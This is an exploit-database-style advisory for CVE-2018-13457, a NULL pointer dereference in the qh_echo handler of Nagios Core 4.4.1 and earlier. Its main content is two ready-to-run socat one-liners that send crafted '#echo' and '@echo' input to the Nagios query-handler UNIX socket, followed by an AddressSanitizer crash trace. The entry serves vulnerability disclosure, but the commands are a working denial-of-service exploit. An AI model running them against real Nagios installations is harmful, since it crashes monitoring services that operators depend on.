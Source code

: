 Exploit Title: Nagios Core qh_echo Denial of Service<br>
Date: 2018-07-09<br>
Exploit Author: Fakhri Zulkifli (@d0lph1n98)<br>
Vendor Homepage: https://www.nagios.org/<br>
Software Link: https://www.nagios.org/downloads/nagios-core/<br>
Version: 4.4.1 and earlier<br>
Tested on: 4.4.1<br>
CVE : CVE-2018-13457<br>
<br>
qh_echo in Nagios Core 4.4.1 and earlier is prone to a NULL pointer dereference vulnerability, which allows attackers to cause a local denial-of-service condition by sending a crafted payload to the listening UNIX socket.<br>
<br>
$ echo -ne "#echo\0" | socat unix-connect:./poc/nagios.qh -<br>
$ echo -ne “@echo\0" | socat unix-connect:./poc/nagios.qh -<br>
<br>
#0 0x4cb18b in __interceptor_strcmp.part.60 /home/user/llvm/projects/compiler-rt/lib/asan/../sanitizer_common/sanitizer_common_interceptors.inc:422<br>
#1 0x554e98 in qh_echo /home/user/nagioscore/base/query-handler.c:29:7<br>
#2 0x5543db in qh_input /home/user/nagioscore/base/query-handler.c:227:12<br>
#3 0x6fac51 in iobroker_poll /home/user/nagioscore/lib/iobroker.c:353:4<br>
#4 0x5bc334 in event_execution_loop /home/user/nagioscore/base/events.c:1136:12<br>
#5 0x53a503 in main /home/user/nagioscore/base/nagios.c:844:4<br>
#6 0x7f183c5f782f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291<br>
#7 0x42b278 in _start (/home/user/nagioscore/base/nagios+0x42b278)<br>
<br>
